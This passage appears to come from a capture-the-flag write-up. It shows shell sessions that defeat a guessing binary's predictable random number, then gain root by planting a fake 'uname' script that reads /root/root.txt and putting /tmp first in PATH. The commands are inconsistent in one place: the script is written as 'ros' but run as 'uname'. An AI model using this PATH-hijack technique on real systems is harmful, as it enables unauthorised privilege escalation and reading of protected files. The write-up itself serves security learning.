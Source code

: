 ```bash
hermonine@ip-10-10-234-114:~$ /srv/time-turner/swagger
Guess my number: 22222
Nope, that is not what I was thinking
I was thinking of 1214357373
```


```bash
hermonine@ip-10-10-50-150:/srv/time-turner$ ./swagger
Guess my number: 3444
Nope, that is not what I was thinking
I was thinking of 1222766762
hermonine@ip-10-10-50-150:/srv/time-turner$ for i in $(seq 1 4) ; do echo 123 | ./swagger ; done
Guess my number: Nope, that is not what I was thinking
I was thinking of 1390435195
Guess my number: Nope, that is not what I was thinking
I was thinking of 1390435195
Guess my number: Nope, that is not what I was thinking
I was thinking of 1390435195
Guess my number: Nope, that is not what I was thinking
I was thinking of 1390435195
hermonine@ip-10-10-50-150:/srv/time-turner$ ./swagger| grep -oE '[0-9]+' | ./swagger
Guess my number: Nice use of the time-turner!
This system architecture is x86_64
hermonine@ip-10-10-50-150:/srv/time-turner$ echo 1234 | ./swagger | tr -dc '0-9' | ./swagger 
Guess my number: Nice use of the time-turner!
This system architecture is x86_64
hermonine@ip-10-10-50-150:/srv/time-turner$ cd /tmp
hermonine@ip-10-10-50-150:/tmp$ cat > ros << EOF
> #!/bin/bash
> cat /root/root.txt
> EOF
hermonine@ip-10-10-50-150:/tmp$ ls
snap-private-tmp
systemd-private-aafaa869e135493c9a019cd85b42bd50-apache2.service-NLU2Mh
systemd-private-aafaa869e135493c9a019cd85b42bd50-ModemManager.service-h86Zrh
systemd-private-aafaa869e135493c9a019cd85b42bd50-systemd-logind.service-N8KzEg
systemd-private-aafaa869e135493c9a019cd85b42bd50-systemd-resolved.service-wQnQ0e
systemd-private-aafaa869e135493c9a019cd85b42bd50-systemd-timesyncd.service-hMzUOg
uname
hermonine@ip-10-10-50-150:/tmp$ chmod +x uname
hermonine@ip-10-10-50-150:/tmp$ export PATH=/tmp:$PATH
hermonine@ip-10-10-50-150:/tmp$ echo 1234 | /srv/time-turner/swagger | tr -dc '0-9' | /srv/time-turner/swagger
Guess my number: Nice use of the time-turner!
This system architecture is RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

<br>

> 1.3. <em>Root.txt</em><br><a id='1.3'></a>
>> <strong><code>RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}</code></strong><br>
<p></p>

<br>
<br>


<img width="1906" height="869" alt="image" src="https://github.com/user-attachments/assets/3ffd208c-f97e-483c-a730-131db95e9392" />

<img width="1907" height="896" alt="image" src="https://github.com/user-attachments/assets/d6deb23f-a53c-415c-ada2-4ac1f35079ff" />

<br>


